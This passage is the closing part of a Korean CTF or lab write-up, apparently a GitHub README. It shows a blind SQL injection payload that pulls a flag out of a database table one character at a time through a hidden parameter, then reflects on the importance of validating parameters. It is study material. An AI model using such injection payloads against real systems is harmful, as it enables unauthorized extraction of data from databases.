 - **최종 플래그 값 추출:**
```html
118 or ASCII(SUBSTRING((select flag from flagHere LIMIT ?,1),?,1))=? and 1=1
```

![플래그](./screenshots/sqli_9_flag.png)

**이렇게 최종적으로 flag를 획득 했다.**

---

## 느낀 점

이번 과제를 통해 다양한 게시판 기능이나, **사용자에게 보이지 않는 파라미터에서도 SQL Injection 취약점이 존재할 수 있다는 점**을 배웠다.
또한 단순한 입력값 조작만으로도 중요한 정보를 추출할 수 있다는 점에서, **파라미터 검증의 중요성**을 다시 느꼈다.
